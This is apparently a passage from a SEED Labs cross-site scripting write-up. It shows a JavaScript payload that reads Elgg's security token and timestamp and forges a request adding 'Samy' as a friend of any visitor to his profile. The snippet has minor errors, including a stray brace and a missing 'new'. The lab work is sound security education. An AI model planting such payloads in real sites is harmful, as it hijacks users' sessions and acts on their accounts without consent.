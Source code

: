 ```yaml
  var Ajax = null

  //setting the timestamp and secrete token parameters 
  var ts = "&__elgg_ts="+elgg.security.__elgg_ts
  var token = "&__elgg_token="+elgg.security.__elgg_token

  // consreucting the HTTP request to add Samy as a friend to Alice

  var sendurl = "http://www.seed-server.com/action/friends/add?friend=59" + token + ts;

}
// creating a Ajax object

Ajax = XMLHttpRequest();
Ajax.open("GET",sendurl,true);
Ajax.send();

</script>

```

By embedding this script in Samy’s "About" section, when Alice visits Samy’s profile, the script executes and sends a friend request to add Samy to Alice’s friend list.

![alt text](/assets/img/seed/WO2/img8.png)
